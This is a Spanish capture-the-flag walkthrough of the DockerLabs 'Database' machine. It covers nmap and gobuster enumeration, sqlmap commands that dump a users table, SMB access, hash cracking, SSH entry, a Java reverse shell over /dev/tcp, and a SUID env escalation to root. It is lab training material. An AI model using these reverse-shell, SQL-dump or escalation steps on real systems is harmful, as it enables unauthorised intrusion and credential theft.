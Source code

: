 ```yaml
---
title: Database - DockerLabs
published: true
categories: DockerLabs
---
```


| OS    | Dificultad | Creator           |
| ----- | ---------- | ----------------- |
| Linux | Medio      | ElPinguinoDeMario |
## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e7076c1e-dd91-4e53-b532-0f77b5246f6d)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Búsqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rápido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la versión del servicio abierto.
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rápido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH`, el puerto 80 `HTTP`, el puerto 445 y el puerto 139 `Samba`

## Enumeración Web
Si accedemos a la pagina web vemos lo siguiente 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/b474b1ae-014e-44d6-9d06-4de30813ce0a)


Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/701ae0f3-63b7-42c4-a604-4e2290e53d6f)


Gobuster ha encontrados dos directorios, el index.php y el config.php vamos a ver que encontramos.

No hay nada interesante, vamos a ver si es potencialmente vulnerable a un SQLi con la herramienta SQL Map-

## Ataque SQLi

Lo hacemos de la siguente forma:

`sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch`

Esto va hacer un escaneo de las bases de datos que encuentre.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/c6bf06f8-c625-4e94-a840-03990be101a3)


`sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch`

Esto va ha ver que tablas se encuentran dentro de la base de datos register.


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e49efd33-0a97-466d-8d20-910717dc4d1a)


Ahora vamos a ver que hay dentro de la tabla users

`sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch`


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/02b8bd15-c9be-45fc-ab6f-daf9bc572782)


Encontramos dos columnas, la passwd y la username vamos a ver que hay dentro de cada una.

`sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch`

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/5ee4f0f6-6749-46d0-b290-6fe9f2202739)

Encontramos una contraseña y un usuario.

dylan:KJSDFG789FGSDF78

Si ahora accedemos al panel web con esas credenciales vemos lo siguiente

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/91b530ce-1055-4acb-87fa-5eb61510dd37)


Ahora si probamos el usuario y la contraseña para intentar acceder vía SSH vemos que no funciona


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e83f63f9-2ba1-4e93-84f9-211de65cf643)


## SMB

Vamos a ver si podemos listar directorios compartidos por SMB con la Herramienta SMB Map

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7eefb39e-c5ef-49dc-b4c4-6a48c87bf165)

Vemos que tenemos 1 carpeta llamada shared pero no tenemos acceso vamos a probar con la contraseña que hemos podido ver apartir del SQL injection.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/307fd865-1a42-4e08-8d6e-06c5d1903a4e)

El usuario dylan tiene permiso de escritura en el directorio shared, entonces con la herramienta smbclient vamos a conectarnos a esa carpeta a ver que hay en su interior.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fc4fd3c2-8297-4202-aeb3-497c72d9ea43)

Vemos un archivo para poderlo leer vamos a descargarlo con el parametro get y le hacemos un cat en nuestra maquina atacante..

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4c00bd9c-7520-4d27-994f-75325b2bf0a5)

Podríamos tener un posible usuario y una posible contraseña pero esta encriptada en MD5 vamos aplicar fuerza bruta con John para desencriptarla.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/cc6c8d98-4b75-45ed-b223-d7551f2d1a3b)

tenemos el usuario augustus con la contraseña lovely

## Intrusión

Vamos a validar estas credenciales por ssh

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/17c5ad07-9ad5-46a8-b113-b3c763ab4c6d)

Ya estamos dentro de la máquina, vamos a buscar alguna forma de escalar privilegios.


## Escalada de privilegios

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2b533274-e400-4e67-8f46-84fd4d9523fd)

Si hacemos un sudo -l vemos que podemos ejecutar el binario java como dylan y así poder escalar a su usuario.

Vamos a crear un script en java para que nos mande una reverse shell con el usuario dylan.

```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/443 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```


Ahora nos ponemos en escucha con netcat por el puerto 443 y ejecutamos el script de la siguiente forma 

`sudo -u dylan /usr/bin/java reverse.java`

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/57fd5d96-82cf-4206-8629-288bcc494793)

Ya somo el usuario dylan, vamos a ver ahora como podemos escalar.

Si buscamos permisos SUID vemos que tenemos el binario env

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/483a1d38-1c75-481c-b78d-27555354df07)

y para explotar esto lo podemos hacer de la siguiente forma 


`/usr/bin/env /bin/sh -p`


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7aca4d29-c71c-4178-b761-3a018b145d01)


Ya somos ROOT
